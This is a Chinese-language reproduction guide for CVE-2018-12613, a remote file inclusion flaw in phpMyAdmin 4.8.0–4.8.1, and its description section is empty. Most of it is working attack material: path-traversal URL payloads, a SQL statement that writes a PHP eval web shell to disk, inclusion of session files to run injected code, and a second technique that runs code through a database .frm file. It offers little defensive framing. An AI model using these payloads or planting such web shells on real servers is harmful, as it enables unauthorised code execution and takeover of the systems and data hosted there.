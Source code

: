 （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞
=============================================

一、漏洞简介
------------

二、漏洞影响
------------

phpMyAdmin 4.8.0和4.8.1受到影响。

三、复现过程
------------

首先需要登录phpmyadmin

### payload

    http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../phpStudy/使用说明.txt

![](resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId25.png)

### 写入shell

#### 第一种姿势

##### 1、写入shell，测试语句：

    SELECT '<?php phpinfo()?>'

![](resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId29.png)

##### 2、查看自己的sessionid（cookie中phpMyAdmin的值）。(或者Bp抓包获取本地的cookie值也可以)

![](resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId31.png)

##### 补充代码

如果上述方法不行的话，则用以下代码

    select '<?php @eval($_POST[abc]);?>' into outfile '/var/www/shell.php'

##### 3、访问：

    http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../../../phpStudy/tmp/tmp/sess_20f18hqcr2mc0nmq96vp920r6phc06v3

#### 第二种姿势

##### 1、在数据表里面添加一句话(这里一点要用get！)

![](resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId36.png)

##### 2、此时会在phpStudyMySQLdata 对应数据库下生成一个frm文件（不同版本路径可能不一样）

![](resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId38.png)

##### 3、访问

    http://0-sec.org/index.php?9ouu=phpinfo();&target=db_sql.php%253f/../../../../../../phpStudy/MySQL/data/9ouu/test.frm

image
